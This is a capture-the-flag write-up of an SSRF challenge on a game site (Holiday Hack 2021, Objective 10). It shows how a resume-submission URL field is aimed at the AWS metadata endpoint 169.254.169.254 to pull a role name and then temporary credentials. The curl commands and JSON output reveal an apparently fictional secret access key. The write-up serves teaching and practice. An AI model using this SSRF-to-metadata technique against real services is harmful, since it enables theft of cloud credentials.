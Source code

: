 # Objective 10: Now Hiring!
**Location: https://apply.jackfrosttower.com/**

**Hints provided by Noxious O. D'or after completion of [IMDS Exploration](https://github.com/joergschwarzwaelder/hhc2021/blob/master/Additional/IMDS%20Exploration.md)**

This objective is about SSRF.

The website's application form consumes the user's name, resume (as file upload) and the URL to the public NLBI report.

After the submission, the item specified by the URL is retrieved by the website and then shown on the "submission accepted" screen using the URL https://apply.jackfrosttower.com/images/{username}.jpg

By choosing the right IMDS URLs, the secret access key for the S3 bucket can be retrieved using CURL:

URL 1 (get role name):
```
http://169.254.169.254/latest/meta-data/iam/security-credentials
```
Result:
```
jsw@io:~$ curl https://apply.jackfrosttower.com/images/joergen.jpg
jf-deploy-role
```

URL 2 (get security credentials for this role):
```
http://169.254.169.254/latest/meta-data/iam/security-credentials/jf-deploy-role
```

```
jsw@io:~$ curl https://apply.jackfrosttower.com/images/joergen.jpg
```
```json
{
	"Code": "Success",
	"LastUpdated": "2021-05-02T18:50:40Z",
	"Type": "AWS-HMAC",
	"AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
	"SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
	"Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
	"Expiration": "2026-05-02T18:50:40Z"
}
```
So the secret access key for the S3 bucket is **CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX**


**Achievement: SSRF to IMDS to S3 Bucket Access**
